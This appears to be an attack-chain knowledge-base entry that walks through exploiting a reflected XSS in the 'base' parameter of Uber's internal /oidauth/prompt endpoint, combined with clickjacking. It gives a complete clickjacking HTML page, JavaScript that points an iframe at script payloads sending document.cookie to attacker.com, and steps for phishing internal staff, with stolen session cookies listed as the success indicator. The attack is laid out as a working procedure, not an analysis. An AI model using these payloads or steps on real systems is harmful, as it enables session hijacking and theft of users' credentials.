

---
tags:
  - xss
  - reflected-xss
  - clickjacking
  - uber
  - internal-domains
  - javascript-execution
type: attack_chain
tools: []
tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
verified: false
platforms:
  - Web
submitted: true
complexity: medium
created_at: '2023-10-01T00:00:00Z'
procedures:
  - '[[procedures/Exploiting-Reflected-XSS-in-Base-Parameter]]'
  - '[[procedures/Facilitating-XSS-Exploitation-via-Clickjacking]]'
step_count: 2
techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
updated_at: '2025-12-14T03:47:23.252Z'
description: >-
  A multi-stage attack exploiting a reflected XSS vulnerability in the 'base'
  parameter of the /oidauth/prompt endpoint, combined with clickjacking to trick
  users into triggering JavaScript execution, potentially leading to session
  hijacking on over 20 uberinternal.com subdomains.
skill_level: intermediate
impact_level: high
id: 1567c0a7-7026-4939-9b5c-89ac96644be1
validated: true
mitre_tactics:
  - '[[Initial Access]]'
  - '[[Execution]]'
mitre_techniques:
  - '[[JavaScript]]'
  - '[[Drive-by Compromise]]'
---
---
id: 123e4567-e89b-12d3-a456-426614174000
name: Chained Reflected XSS and Clickjacking for Arbitrary JavaScript Execution on Uber Internal Domains
type: attack_chain
description: A multi-stage attack exploiting a reflected XSS vulnerability in the 'base' parameter of the /oidauth/prompt endpoint, combined with clickjacking to trick users into triggering JavaScript execution, potentially leading to session hijacking on over 20 uberinternal.com subdomains.
verified: false
submitted: false
step_count: 2
created_at: 2023-10-01T00:00:00Z
updated_at: 2023-10-01T00:00:00Z
procedures: [[procedures/Exploiting-Reflected-XSS-in-Base-Parameter]], [[procedures/Facilitating-XSS-Exploitation-via-Clickjacking]]
techniques: [[JavaScript]], [[Drive-by Compromise]]
tactics: [[Initial Access]], [[Execution]]
tags: xss, reflected-xss, clickjacking, uber, internal-domains, javascript-execution
platforms: Web
tools: []
---

# Chained Reflected XSS and Clickjacking for Arbitrary JavaScript Execution on Uber Internal Domains

Multi-stage attack chain demonstrating a complete attack workflow exploiting vulnerabilities in Uber's internal authentication endpoints to execute arbitrary JavaScript in victims' browsers.

## Chain Metrics Dashboard

| Metric | Value |
|--------|-------|
| Chain Status | Unverified |
| Total Steps | 2 |
| Execution Time | ~5 minutes |
| Skill Level | Intermediate |
| Complexity | Medium |
| Impact Level | High |

## Attack Flow Visualization



## Prerequisites & Requirements

### Required Tools

- Browser developer tools for payload crafting
- Local web server for hosting the clickjacking page

### Target Environment

- Web platform
- Access to uberinternal.com subdomains (e.g., eng.uberinternal.com, coeshift.corp.uber.internal)
- No specific ports required beyond standard HTTPS (443)

### Initial Access Requirements

- Ability to send phishing links to internal Uber users
- Network access to internal domains (requires internal positioning or social engineering)
- No prior credentials needed, but victim must be authenticated or interact with the endpoint

## Detailed Attack Procedures

### Step 1: Facilitate User Interaction via Clickjacking
procedure: [[procedures/Facilitating-XSS-Exploitation-via-Clickjacking]]

**Objective**: Overlay a malicious iframe on a legitimate page to trick the victim into clicking, bypassing direct link suspicion and enabling the XSS trigger.

**Instructions**: Host a phishing page that embeds the vulnerable Uber endpoint in an iframe without frame-busting protections. Position the iframe transparently over a visible button or link that prompts the user to "click to authenticate" or similar. When the user clicks, it interacts with the overlaid iframe, submitting the request to the /oidauth/prompt endpoint.

Use a simple HTML page for the clickjacking setup:

```html
<!DOCTYPE html>
<html>
<head>
    <title>Uber Internal Auth</title>
    <style>
        iframe { position: absolute; top: 0; left: 0; opacity: 0.5; width: 400px; height: 300px; }
        .bait { position: relative; z-index: 1; }
    </style>
</head>
<body>
    <div class="bait">
        <button>Click to Login</button>
    </div>
    <iframe src="https://eng.uberinternal.com/oidauth/prompt?base=javascript:alert('XSS')"></iframe>
</body>
</html>
```

Host this on a controllable server and send the link to the victim via email or internal chat.

**Expected Output**: Victim sees a legitimate-looking page and clicks, loading the vulnerable endpoint in the iframe.

**Success Indicators**:
- Iframe loads without errors (no X-Frame-Options blocking)
- Victim click registered in network logs

### Step 2: Trigger Reflected XSS Execution
procedure: [[procedures/Exploiting-Reflected-XSS-in-Base-Parameter]]

**Objective**: Inject and execute arbitrary JavaScript by reflecting an unsanitized 'base' parameter value into the page body upon user interaction from the clickjacked frame.

**Instructions**: In the clickjacking iframe src or via form submission within the iframe, append a malicious payload to the 'base' parameter, such as a JavaScript URI scheme or encoded script tag. For example, set base to "javascript:alert(document.cookie)" or a more advanced payload like "<script>fetch('https://attacker.com/steal?cookie='+document.cookie)</script>". The lack of sanitization allows the payload to reflect directly into the HTML body when the page renders after the click.

Test the payload manually first by navigating to https://eng.uberinternal.com/oidauth/prompt?base=<script>alert(1)</script> in a browser to confirm execution.

Integrate into the clickjacking page by dynamically setting the iframe src or using JavaScript to submit a form:

```javascript
// In the clickjacking page
 document.querySelector('button').addEventListener('click', () => {
   const iframe = document.querySelector('iframe');
   iframe.src = 'https://eng.uberinternal.com/oidauth/prompt?base=' + encodeURIComponent('<script>document.location=\'http://attacker.com/steal?data=\' + btoa(document.cookie)</script>');
 });
```

**Expected Output**: JavaScript executes in the context of the Uber domain, allowing access to cookies, session data, or further actions like keylogging.

**Success Indicators**:
- Alert or network request to attacker server observed
- Victim's session cookies exfiltrated

## Attack Chain Summary

### Key Achievements

1. Bypassed user suspicion through clickjacking overlay
2. Executed arbitrary JS across multiple internal subdomains via reflected XSS
3. Enabled potential session hijacking or data theft from authenticated users

## Technique & Tactic Coverage

### MITRE ATT&CK Techniques

- [[JavaScript]]
- [[Drive-by Compromise]]

### MITRE ATT&CK Tactics

- [[Initial Access]]
- [[Execution]]

---
*Last updated: 2023-10-01T00:00:00Z*
